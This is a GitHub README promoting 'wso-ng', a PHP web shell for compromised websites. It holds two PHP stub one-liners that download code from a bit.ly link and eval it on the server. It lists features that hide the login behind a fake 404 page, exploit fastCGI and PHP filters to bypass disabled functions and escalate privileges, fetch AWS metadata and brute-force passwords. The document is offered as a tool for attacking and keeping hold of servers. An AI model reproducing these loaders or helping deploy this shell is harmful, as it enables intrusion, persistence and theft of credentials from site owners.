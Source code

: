 [![Twitter Follow](https://img.shields.io/twitter/follow/0xbadad?style=social)](https://twitter.com/0xbadad)
# wso-ng
New generation of famous WSO web shell. With perks included
# default password is "root"
![image](https://user-images.githubusercontent.com/1212294/149636180-7af99caf-a6c4-4475-a42d-0bd818cb67b1.png)
![image](https://user-images.githubusercontent.com/1212294/149636349-e580a04e-846f-4240-8b94-644d6e9aca5a.png)

# changes
- can now hook password when loaded via stub 
```
<?php eval(substr(file_get_contents('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3'), 5)); ?>
```
```
<?php $sorrymom = create_function('', "substr(implode('', file('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3')), 5)");$sorrymom();
```
and will use it instead of hardcoded one
- all subfile downloads are now cached in /tmp and zipped
- login page show natural site "404 not found" page. Just type password and press Enter, cuz password field hidden offscreen, but focused already.
- new breadcrumps navigation panel. Must be much more usefull.
- all files\dirs are now highlighted as their edit\view rights
- go to file\path right from breadcrumps field
- **add fastCGI exploit to auto-elevate & bypass disabled functions, when possible**
- **add php add-filter exploit to bypass disabled functions and gain console execution, when possible**
- ajax interaction now is default
- Ctrl+Enter on any field to Save\Run
- added "Fetch AWS metadata" command to bookmarks
- added hotlink to "Linux Exploit Suggester v2" by default.
- added VirusTotal integration, to autocheck IP reputation.
- added https://securitytrails.com integration, to show neighbors on same IP.
- added ip-info integration to show domains on same server
- added reverse ip check, to show real IP, and not local.
- added memory, cores and load average info to top bar.
- click on IP to copy it
- added list of open ports & sockets to *Sec. Info* section. Works ever if no console priveleges available, thru *fsock*.
- added support for phpRedis in *Sec. Info* section.
- reworked "Userful" section. Works thru limits of open basedir now.
- you can touch files right in file list of file manager now.
- fast copy name\path to clipboard by click.
- **neat syntax highlighting everywhere**.
- neat PHP code editing with autoindent support.
- default top1000 password list (https://bit.ly/top1kpass) in "Bruteforce" section. 
